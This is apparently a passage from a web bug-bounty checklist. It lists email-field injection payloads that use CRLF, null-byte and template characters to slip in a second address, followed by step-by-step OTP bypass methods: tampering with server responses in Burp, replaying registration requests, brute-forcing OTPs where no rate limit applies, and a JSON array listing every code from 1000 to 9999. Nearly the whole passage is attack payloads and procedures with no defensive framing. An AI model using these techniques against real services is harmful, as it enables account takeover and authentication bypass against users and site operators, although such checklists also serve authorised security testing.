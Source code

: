 ```python
email@email“,”victim@hack.secry  
email@email.com:victim@hack.secry
email@email.com%0d%0avictim@hack.secry  
%0d%0avictim@hack.secry
%0avictim@hack.secry
victim@hack.secry%0d%0a
victim@hack.secry%0a
victim@hack.secry%0d
victim@hack.secr%00
victim@hack.secry{{}}
```

 >**OTP Bypass**

- [ ] **OTP Bypass Via Response Manipulation**
    
    ```python
    1.Register 2 accounts with any 2 mobile number(first enter right otp)
      2.Intercept your request
      3.click on action -> Do intercept -> intercept response to this request.
      4.check what the message will display like status:1 or copy the whole response
      5.Follow the same procedure with other account but this time enter wrong otp
      6.Intercept respone to the request
      7.See the message like you get status:0
      8.Change status to 1 i.e, status:1 and forward the request if you logged in means you just done authentication bypass.
    ```
    
- [ ] **Bypassing OTP in registration forms by repeating the form submission multiple times using repeater**
    
    ```python
    1. Create an account with a non-existing phone number
    2. Intercept the Request in BurpSuite
    3. Send the request to the repeater and forward
    4. Go to Repeater tab and change the non-existent phone number to your phone number
    5. If you got an OTP to your phone, try using that OTP to register that non-existent number
    ```
    
- [ ] **No Rate Limit When Sending OTP**
    
    ```python
    1) Create an Account
        2) When Application Ask you For the OTP( One-time password ), Enter wrong OTP and Capture this Request In Burp.
        3) Send This Request into Repeater and repeat it by setting up payload on otp Value.
        4) if there is no Rate Limit then wait for 200 Status Code (Sometimes 302)
        5)if you get 200 ok or 302 Found Status Code that means you've bypass OTP
    ```
    
- [ ] **OTP Bypass in JSON**
    
    ```python
    {
            "code":[
                    "1000",
                    "1001",
                    "1002",
                    "1003",
                    "1004",
                    ...
                    "9999"
                    ]
    }
    ```
    